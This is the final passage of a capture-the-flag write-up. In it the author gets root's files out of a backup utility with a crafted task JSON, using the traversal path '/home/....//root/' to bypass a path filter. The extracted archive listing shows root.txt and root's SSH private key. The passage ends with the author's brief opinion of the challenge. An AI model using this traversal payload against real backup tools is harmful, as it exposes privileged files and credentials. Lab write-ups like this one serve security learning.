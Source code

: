 Ok. I tried the above about 10 times and couldn’t figure out why it wasn’t working so I removed the `exclude` part - and after about a dozen more tries it worked.

```json
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
```

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662450/image_hk2jat.png)

```
martin@code:~$ tar -xvjf code_home_.._root_2025_July.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
```

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662452/image_hxjlxt.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662454/Screenshot_2025-07-04_214141_lorkzd.png)

## Thoughts

A fairly unique challenge. I wasn’t particularly into it if I’m honest just simply because the premise is quite unrealistic.
